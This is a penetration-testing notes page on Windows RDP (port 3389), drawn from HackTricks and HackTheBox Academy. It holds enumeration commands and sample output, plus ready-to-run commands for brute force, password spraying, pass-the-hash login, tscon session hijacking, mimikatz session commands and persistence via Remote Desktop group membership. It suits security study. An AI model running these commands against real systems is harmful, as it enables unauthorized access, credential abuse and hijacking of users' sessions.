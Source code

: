 ```yaml
---
title: 3389 RDP
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - rdp
  - port 3389
  - mimikatz
---
```


# 3389 rdp

## Description

source: https://book.hacktricks.xyz/network-services-pentesting/pentesting-rdp and HackTheBox Academy.

Basic information about RDP service: Remote Desktop Protocol (RDP) is a proprietary protocol developed by Microsoft, which provides a user with a graphical interface to connect to another computer over a network connection. The user employs RDP client software for this purpose, while the other computer must run RDP server software (from here).

| Name | Description |
| ---- | ----------- |
| port | 3389/TCP | 
| state | open |
| service | ms-wbt-server |   
| version | Microsoft Terminal Services |
| Banner | rdp-ntlm-info |

RDP works at the application layer in the TCP/IP reference model, typically utilizing TCP port 3389 as the transport protocol. However, the connectionless UDP protocol can use port 3389 also for remote administration. The `Remote Desktop` service is installed by default on Windows servers and does not require additional external applications. This service can be activated using the `Server Manager` and comes with the default setting to allow connections to the service only to hosts with [Network level authentication](https://en.wikipedia.org/wiki/Network_Level_Authentication) (`NLA`).

## Enumeration

To check the available encryption and DoS vulnerability (without causing DoS to the service) and obtains NTLM Windows info (versions).

nmap uses RDPcookies (mstshash=nmap) to interact with the RDP server. These cookies can be identified by  security services such as EDRs, and can lock us out, so we need to think twice before running that scan.

```bash
nmap -Pn -sV -p3389 --script rdp-*  $ip
```

Results:
```
PORT     STATE SERVICE       VERSION
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| rdp-enum-encryption:
|   Security layer
|     CredSSP (NLA): SUCCESS
|     CredSSP with Early User Auth: SUCCESS
|_    RDSTLS: SUCCESS
| rdp-ntlm-info:
|   Target_Name: EXPLOSION
|   NetBIOS_Domain_Name: EXPLOSION
|   NetBIOS_Computer_Name: EXPLOSION
|   DNS_Domain_Name: Explosion
|   DNS_Computer_Name: Explosion
|   Product_Version: 10.0.17763
|_  System_Time: 2022-11-11T12:16:26+00:00
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

[rdp-sec-check.pl](https://github.com/CiscoCXSecurity/rdp-sec-check) is a perl script to enumerate security settings of an RDP Service (AKA Terminal Services).

```bash
git clone https://github.com/CiscoCXSecurity/rdp-sec-check.git && cd rdp-sec-check

./rdp-sec-check.pl $ip
```


## Connection with rdp

To run Microsoft’s Remote Desktop Protocol (RDP) client, a command-line interface called Microsoft Terminal Services Client (MSTSC) is used. 
We can connect to RDP servers on Linux using [xfreerdp](xfreerdp.md), rdesktop, or Remmina and interact with the GUI of the server accordingly.

### xfreerdp

[See xfreerdp](xfreerdp.md).

We can first try to form an RDP session with the target by not providing any additional information for any switches other than the target IP address. This will make the script use your own username as the login username for the RDP session, thus testing guest login capabilities.

```bash
xfreerdp /v:$ip
# /v:$ip: Specifies the target IP of the host we would like to connect to.
```

Try to login with other default accounts, such as user, admin, Administrator, and so on.  We will also be specifying to the script that we would like to bypass all requirements for a security certificate so that our own script does not request them:

```bash
xfreerdp /cert:ignore /u:Administrator /v:$ip
# /cert:ignore : Specifies to the scrips that all security certificate usage should be ignored.
# /u:Administrator : Specifies the login username to be "Administrator".
# /v:$ip: Specifies the target IP of the host we would like to connect to.
```

If successful, during the initialization of the RDP session, we will be asked for a password. We can hit Enter to see if the process continue without one. 
Sometimes there are severe mishaps in configurations like this and we can gain access.

If you know user and credentials:

```bash
xfreerdp /u:<username> /p:<"password"> /v:$ip 
```


## Brute force

```
ncrack -vv --user <User> -P pwds.txt rdp://$ip
hydra -V -f -L <userslist> -P <passwlist> rdp://$ip
```
Be careful, you could lock accounts

## Password Spraying

Be careful, you could lock accounts

```bash
# https://github.com/galkan/crowbar
crowbar -b rdp -s 192.168.220.142/32 -U users.txt -c 'password123'

# hydra
hydra -L usernames.txt -p 'password123' 192.168.2.143 rdp
```

## Connect with known credentials/hash

```bash
rdesktop -u <username> $ip
rdesktop -d <domain> -u <username> -p <password> $ip
xfreerdp [/d:domain] /u:<username> /p:<password> /v:$ip
xfreerdp [/d:domain] /u:<username> /pth:<hash> /v:$ip #Pass the hash
```

Check known credentials against RDP services

rdp_check.py from impacket let you check if some credentials are valid for a RDP service:

```
rdp_check <domain>/<name>:<password>@$ip
```

## Attacks

### Session stealing

With SYSTEM permissions you can access any opened RDP session by any user without need to know the password of the owner.

Get openned sessions:
```
query user
```

Access to the selected session
```
tscon <ID> /dest:<SESSIONNAME>
```

Now you will be inside the selected RDP session and you will have impersonate a user using only Windows tools and features.

Important: When you access an active RDP sessions you will kickoff the user that was using it.
You could get passwords from the process dumping it, but this method is much faster and led you interact with the virtual desktops of the user (passwords in notepad without been saved in disk, other RDP sessions opened in other machines...)

### Mimikatz

You could also use mimikatz to do this:
```
ts::sessions #Get sessions
ts::remote /id:2 #Connect to the session
```

Sticky-keys & Utilman
Combining this technique with stickykeys or utilman you will be able to access a administrative CMD and any RDP session anytime

You can search RDPs that have been backdoored with one of these techniques already with: https://github.com/linuz/Sticky-Keys-Slayer


### RDP Process Injection

If someone from a different domain or with better privileges login via RDP to the PC where you are an Admin, you can inject your beacon in his RDP session process and act as him:

### RDP Sessions Abuse

```
# Adding User to RDP group
net localgroup "Remote Desktop Users" UserLoginName /add
```

#### Shadow Attack

AutoRDPwn is a post-exploitation framework created in Powershell, designed primarily to automate the Shadow attack on Microsoft Windows computers. This vulnerability (listed as a feature by Microsoft) allows a remote attacker to view his victim's desktop without his consent, and even control it on demand, using tools native to the operating system itself.


https://github.com/JoelGMSec/AutoRDPwn

